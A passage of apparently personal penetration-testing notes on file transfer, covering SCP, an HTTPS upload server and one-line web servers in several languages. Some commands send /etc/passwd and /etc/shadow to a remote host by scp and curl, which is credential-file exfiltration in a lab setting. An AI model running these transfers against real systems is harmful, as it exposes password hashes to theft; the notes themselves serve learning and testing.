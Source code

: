 ### SCP

SCP means **Secure CoPy**.\
I create an SSH server.

```bash
sudo systemctl enable ssh
sudo systemctl start ssh
netstat -lnpt				# check listening ports
```

Since my client, I download the file using SCP ...

```bash
scp plaintext@192.168.49.128:/root/myroot.txt .
```

... or I upload it !

```bash
scp /etc/passwd plaintext@192.168.49.128:/home/plaintext
```

### Web Server

I install the Python package.

```bash
python3 -m pip install --user uploadserver
```

I create a self-signed certificate to use HTTPS and I create a new host directory. Then, I run the server.

```bash
openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
mkdir https && cd https
python3 -m uploadserver 443 --server-certificate /root/server.pem
```

To upload file with bash from client to server. The `--insecure` means that I trust the self-signed certificate.

```bash
curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

There are other web server with other languages.

```bash
python3 -m http.server		# python3
python2.7 -m SimpleHTTPServer	# python2.7
php -S 0.0.0.0:8000		# php
ruby -run -ehttpd . -p8000	# ruby
```

To download a file from one of these server into the client.
